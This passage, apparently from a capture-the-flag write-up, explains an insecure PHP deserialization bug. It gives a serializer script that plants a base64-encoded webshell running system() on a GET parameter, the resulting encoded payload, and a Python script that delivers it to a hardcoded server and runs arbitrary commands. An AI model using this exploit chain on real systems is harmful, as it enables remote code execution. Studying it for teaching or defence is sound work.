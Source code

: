 ```
                    fwrite($file, $content);
                    fclose($file);
                    echo "[+] Debug: Done";
	    }
	    else {
	    unlink($filename);
	    }
    }
}

$data = unserialize($_GET['data']);
```

Analyzing the code, we can inject a PHP webshell using serialization.

We will send via a GET parameter, "data", a serialized object of the SecurePasswordManager class, applying the restriction of a content of 48 bytes. This way, the content will be published under "/<session_id>". We will use the following PHP script to serialize our data:

```
<?php
Class SecurePasswordManager{
    function __construct() {
    }
    
    function __destruct() {
    }
}

$obj = new SecurePasswordManager();
$obj->filename = "oreos.php";
$obj->content = "PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8+    ";

$bar = [];
$bar[] = $obj;

$m = serialize($bar);
echo urlencode($m)."\n";
?>
```

```
# php -f serialize.php 
a%3A1%3A%7Bi%3A0%3BO%3A21%3A%22SecurePasswordManager%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A9%3A%22oreos.php%22%3Bs%3A7%3A%22content%22%3Bs%3A48%3A%22PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8%2B++++%22%3B%7D%7D
```

Once we have the serialized data, we create a python script to automatize the procedure:

```
import requests
import sys

url = 'http://142.93.97.61:8001/'
r = requests.get(url)
cookies = r.cookies.get_dict()

serialized = 'a%3A1%3A%7Bi%3A0%3BO%3A21%3A%22SecurePasswordManager%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A9%3A%22oreos.php%22%3Bs%3A7%3A%22content%22%3Bs%3A48%3A%22PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8%2B++++%22%3B%7D%7D'
r = requests.get(url+'?data='+serialized,cookies=cookies)
r = requests.get(url+"tmp/"+cookies['PHPSESSID']+'/oreos.php?c='+sys.argv[1],cookies=cookies)
print r.content
```
